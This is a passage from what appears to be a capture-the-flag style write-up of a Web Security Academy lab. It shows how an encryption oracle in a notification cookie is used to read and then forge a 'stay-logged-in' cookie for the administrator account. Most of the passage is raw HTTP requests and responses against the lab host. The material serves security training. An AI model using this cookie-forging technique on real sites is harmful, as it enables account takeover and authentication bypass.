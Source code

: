 ```
Invalid email address: jfadksl
```

One thing to note their add one new cookie value in our response that is like the following.

```
Set-Cookie: notification=YtjXLmjrhp4FClZTrHbInYy6zo6QON0361UgjIhbcyW57y%2ftORMMhxNmKDBh64iT; 
```

That also looks like URL and base64 encoded string but after decoding they didn't show any readable response like the `stay-login` cookie value.

When we substitute the above notification cookie value with our stay-login cookie value we see an interesting result like the following.

**Request**
```
GET /my-account HTTP/2
Host: 0ac7004b0374c51b81b4f24a00d0007e.web-security-academy.net
Cookie: notification=8U%2fF0TDQA2n1kQS7aicycbABz6GnmPe7ZFxscJLhl%2bo%3d; stay-logged-in=8U%2fF0TDQA2n1kQS7aicycbABz6GnmPe7ZFxscJLhl%2bo%3d; session=EjKWEJbRxIovxvb7MjVTmdVSvZGoNqL7
Origin: https://0ac7004b0374c51b81b4f24a00d0007e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
```

**Response**
```html
.
.
<header class="notification-header">
wiener:1683116146899
</header>
.
.
```

They decrypt that string and show us the result that is readable to us. Seeing that we know they are making a `stay-login` cookie by getting our username and appending it with a timestamp like the following.

```
username:timestamp
```

If we copy the timestamp of our request and send the request that has the string `administrator:our-timestamp-here` in the following request.

**Request**
```
POST /post/comment HTTP/2
Host: 0ac7004b0374c51b81b4f24a00d0007e.web-security-academy.net
Cookie: stay-logged-in=cQRpSPvfgh6wfp7vQhkxPGfpzDMI0a3Lttwr4%2bycL4w%3d; session=TMYCWxclNnsNdew54bsRemHls3rtbrXE
Content-Length: 111
Origin: https://0ac7004b0374c51b81b4f24a00d0007e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36

csrf=SgbIfThjqph0D5BFA5GQVa5CasiEI8nF&postId=8&comment=t&name=wiener&email=administrator:1683116924082&website=
```
